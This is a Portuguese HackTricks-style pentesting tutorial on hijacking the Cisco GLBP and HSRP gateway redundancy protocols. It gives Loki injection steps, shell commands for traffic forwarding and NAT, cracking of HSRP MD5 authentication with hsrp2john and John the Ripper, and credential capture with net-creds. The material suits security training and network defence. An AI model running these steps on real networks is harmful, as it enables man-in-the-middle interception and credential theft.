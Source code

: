 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## Visão Geral do Sequestro FHRP

### Insights sobre FHRP

FHRP é projetado para fornecer robustez à rede, unindo vários roteadores em uma única unidade virtual, melhorando assim a distribuição de carga e a tolerância a falhas. A Cisco Systems introduziu protocolos proeminentes nesta suíte, como GLBP e HSRP.

### Insights sobre o Protocolo GLBP

A criação da Cisco, GLBP, funciona na pilha TCP/IP, utilizando UDP na porta 3222 para comunicação. Roteadores em um grupo GLBP trocam pacotes "hello" em intervalos de 3 segundos. Se um roteador não enviar esses pacotes por 10 segundos, presume-se que está offline. No entanto, esses temporizadores não são fixos e podem ser modificados.

### Operações GLBP e Distribuição de Carga

GLBP se destaca ao permitir a distribuição de carga entre roteadores usando um único IP virtual combinado com vários endereços MAC virtuais. Em um grupo GLBP, cada roteador está envolvido no encaminhamento de pacotes. Ao contrário do HSRP/VRRP, o GLBP oferece balanceamento de carga genuíno por meio de vários mecanismos:

- **Balanceamento de Carga Dependente do Host:** Mantém a atribuição consistente do endereço MAC AVF a um host, essencial para configurações NAT estáveis.
- **Balanceamento de Carga Round-Robin:** A abordagem padrão, alternando a atribuição do endereço MAC AVF entre os hosts solicitantes.
- **Balanceamento de Carga Round-Robin Ponderado:** Distribui a carga com base em métricas de "Peso" predefinidas.

### Componentes e Terminologias Chave no GLBP

- **AVG (Active Virtual Gateway):** O roteador principal, responsável por alocar endereços MAC para roteadores pares.
- **AVF (Active Virtual Forwarder):** Um roteador designado para gerenciar o tráfego da rede.
- **Prioridade GLBP:** Uma métrica que determina o AVG, começando em um padrão de 100 e variando entre 1 e 255.
- **Peso GLBP:** Reflete a carga atual em um roteador, ajustável manualmente ou através de Object Tracking.
- **Endereço IP Virtual GLBP:** Serve como o gateway padrão da rede para todos os dispositivos conectados.

Para interações, o GLBP utiliza o endereço multicast reservado 224.0.0.102 e a porta UDP 3222. Os roteadores transmitem pacotes "hello" em intervalos de 3 segundos e são considerados não operacionais se um pacote for perdido por um período de 10 segundos.

### Mecanismo de Ataque GLBP

Um atacante pode se tornar o roteador principal enviando um pacote GLBP com o maior valor de prioridade (255). Isso pode levar a ataques DoS ou MITM, permitindo a interceptação ou redirecionamento de tráfego.

### Executando um Ataque GLBP com Loki

[Loki](https://github.com/raizo62/loki_on_kali) pode realizar um ataque GLBP injetando um pacote com prioridade e peso definidos para 255. Os passos pré-ataque envolvem coletar informações como o endereço IP virtual, presença de autenticação e valores de prioridade do roteador usando ferramentas como Wireshark.

Passos do Ataque:

1. Mude para o modo promíscuo e habilite o encaminhamento IP.
2. Identifique o roteador alvo e recupere seu IP.
3. Gere um ARP Gratuitous.
4. Injete um pacote GLBP malicioso, se passando pelo AVG.
5. Atribua um endereço IP secundário à interface de rede do atacante, espelhando o IP virtual GLBP.
6. Implemente SNAT para visibilidade completa do tráfego.
7. Ajuste o roteamento para garantir acesso contínuo à internet através do roteador AVG original.

Seguindo esses passos, o atacante se posiciona como um "homem no meio", capaz de interceptar e analisar o tráfego da rede, incluindo dados não criptografados ou sensíveis.

Para demonstração, aqui estão os trechos de comando necessários:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitorar e interceptar o tráfego pode ser feito usando net-creds.py ou ferramentas similares para capturar e analisar os dados que fluem pela rede comprometida.

### Explicação Passiva do Sequestro HSRP com Detalhes de Comando

#### Visão Geral do HSRP (Hot Standby Router/Redundancy Protocol)

HSRP é um protocolo proprietário da Cisco projetado para redundância de gateway de rede. Ele permite a configuração de vários roteadores físicos em uma única unidade lógica com um endereço IP compartilhado. Esta unidade lógica é gerenciada por um roteador primário responsável por direcionar o tráfego. Ao contrário do GLBP, que usa métricas como prioridade e peso para balanceamento de carga, o HSRP depende de um único roteador ativo para gerenciamento de tráfego.

#### Funções e Terminologia no HSRP

- **Roteador Ativo HSRP**: O dispositivo que atua como gateway, gerenciando o fluxo de tráfego.
- **Roteador Standby HSRP**: Um roteador de backup, pronto para assumir se o roteador ativo falhar.
- **Grupo HSRP**: Um conjunto de roteadores colaborando para formar um único roteador virtual resiliente.
- **Endereço MAC HSRP**: Um endereço MAC virtual atribuído ao roteador lógico na configuração HSRP.
- **Endereço IP Virtual HSRP**: O endereço IP virtual do grupo HSRP, atuando como o gateway padrão para dispositivos conectados.

#### Versões do HSRP

O HSRP vem em duas versões, HSRPv1 e HSRPv2, que diferem principalmente na capacidade do grupo, uso de IP multicast e estrutura do endereço MAC virtual. O protocolo utiliza endereços IP multicast específicos para troca de informações de serviço, com pacotes Hello enviados a cada 3 segundos. Um roteador é considerado inativo se nenhum pacote for recebido dentro de um intervalo de 10 segundos.

#### Mecanismo de Ataque HSRP

Os ataques HSRP envolvem a tomada forçada do papel do Roteador Ativo, injetando um valor de prioridade máximo. Isso pode levar a um ataque Man-In-The-Middle (MITM). Os passos essenciais pré-ataque incluem a coleta de dados sobre a configuração HSRP, que pode ser feita usando o Wireshark para análise de tráfego.

#### Passos para Bypass da Autenticação HSRP

1. Salve o tráfego da rede contendo dados HSRP como um arquivo .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraia hashes MD5 do arquivo .pcap usando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Quebre os hashes MD5 usando John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executando a Injeção HSRP com Loki**

1. Inicie o Loki para identificar anúncios HSRP.
2. Defina a interface de rede para modo promíscuo e habilite o encaminhamento de IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Use o Loki para direcionar o roteador específico, insira a senha HSRP quebrada e execute as configurações necessárias para se passar pelo Roteador Ativo.
4. Após assumir o papel de Roteador Ativo, configure sua interface de rede e tabelas IP para interceptar o tráfego legítimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifique a tabela de roteamento para direcionar o tráfego através do antigo Roteador Ativo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Use net-creds.py ou uma utilidade similar para capturar credenciais do tráfego interceptado.
```shell
sudo python2 net-creds.py -i eth0
```

Executar esses passos coloca o atacante em uma posição para interceptar e manipular o tráfego, semelhante ao procedimento para sequestro GLBP. Isso destaca a vulnerabilidade em protocolos de redundância como HSRP e a necessidade de medidas de segurança robustas.

## Referências

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}
